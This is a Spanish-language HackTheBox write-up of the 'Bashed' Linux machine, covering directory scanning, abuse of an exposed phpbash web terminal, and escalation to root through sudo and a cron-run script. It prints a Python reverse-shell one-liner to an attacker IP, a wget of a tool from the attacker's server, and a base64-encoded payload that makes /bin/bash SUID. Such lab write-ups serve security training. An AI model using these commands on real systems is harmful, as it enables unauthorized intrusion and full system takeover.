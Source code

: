 ```yaml
---
layout: single
title: Writeup HTB - Maquina Bashed
comments: true
excerpt: "La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo [test.py](http://test.py) ya que habia una tarea que ejecutaba dicho archivo como usuario root."
date: 2022-02-02
classes: wide
header:
  teaser: /assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png
  teaser_home_page: true
categories:
  - HackTheBox
tags:
  - OSCP  
  - Hacking
  - Easy
---
```



# Bashed

<p align="center">
<img src="/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled.png">
</p>


## Resumen

La maquina Bashed es una maquina linux - Easy, que nos presenta una aplicacion web que ejecuta comandos en el servidor modo terminal web, aprovechamos esto para obtener una reverse shell y ejecutamos commandos como el user www-data, posteriormente escalamos privilegios como el usuario scriptmanager haciendo uso de los permisos de sudo. Finalmente logramos escalar privilegios como el usuario root modificando el archivo test.py ya que habia una tarea que ejecutaba dicho archivo como usuario root.

## Scan Nmap

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%201.png)

## Pagina web - Port 80

bueno ya que tenemos solo un puerto esta maquina, revisemos la pagina web para ver que contiene. 

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%202.png)

vemos que tenemos una aplicacion llamada phpbash, si acedemos al enlace de la pagina vemos una url en la imagen

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%203.png)

intentamos acceder a dicha url pero sin exito

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%204.png)

tambien vemos que nos proporcionan un repositorio de la aplicacion

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%205.png)

por lo tanto hare un escaneo de directorios con dirsearch

```bash
bashed # ❯ dirsearch -u http://10.129.160.128 -w /usr/share/wordlists/dirb/common.txt -f -e php,html,js,txt,save,bak
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%206.png)

entonces me interesa la ruta dev y vemos que contiene los archivos del repositorio

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%207.png)

dicha aplicacion nos permite ejecutar comandos en el servidor de una terminal web

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%208.png)

## Reverse shell - User www-data

asi que aprovecharemos la ejecucion de comandos para obtener una reverse shell, primero dejaremos el puerto 443 en escucha con netcat

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%209.png)

y  agremos el siguiente payload a la aplicacion vulnerable

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.54",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'
```

logrando conectarnos siendo el user www-data

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2010.png)

## Escalacion de privilegios - user scripts

revisando los permisos de sudoers, encontramos que podemos ejecutar cualquier comando con el user scriptmanager

```bash
www-data@bashed:/tmp$ sudo -l
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2011.png)

asi que obtenemos una sesion con dicho usuario de la siguiente manera

```bash
www-data@bashed:/tmp$ sudo -u scriptmanager /bin/bash
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2012.png)

## Escalacion de privilegios - user root

para escalar privilegios descargare en la maquina victima la herramienta pspy64, ya que dicha herramienta monitoreara todo los procesos y tareas que se ejecuten en la maquina victima. Asi pues para realizar este cometido crearemos un servidor web en python

```bash
bashed # > python3 -m http.server 80
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2013.png)

y descargamos nuestra herramienta de la siguiente manera

```bash
www-data@bashed:/tmp$ wget http://10.10.14.54/pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2014.png)

ejecutamos nuestra herramienta pspy64

```bash
scriptmanager@bashed:/scripts$ chmod +x pspy64 
scriptmanager@bashed:/scripts$ ./pspy64
```

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2015.png)

notamos que se esta ejecutando un script test.py

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2016.png)

si revisamos la carpeta de dicho archivo vemos que podriamos modificar test.py para ejecutar algun comando que nos ayude a escalar privilegios a root

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2017.png)

Por lo tanto modificaremos test.py de esta manera para otorgar permisos de suid al binario bash de esa manera podremos lograr ser root!!

```bash
scriptmanager@bashed:/scripts$ echo aW1wb3J0IG9zCm9zLnN5c3RlbSgnY2htb2QgdStzIC9iaW4vYmFzaCcp | base64 -d > test.py
scriptmanager@bashed:/scripts$ cat test.py 
import os
os.system('chmod u+s /bin/bash')
```

esperamos un momento y revisamos los permisos de /bin/bash, vemos que todo funciono

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2018.png)

asi que ejecutamos /bin/bash para ser root!!

![Untitled](/assets/images/2022-02-02-writeup-maquina-htb-bashed/Untitled%2019.png)

gracias por ver este writeup, espero que te hayas divertido tanto como yo me diverti haciendolo. Nos vemos Abeljm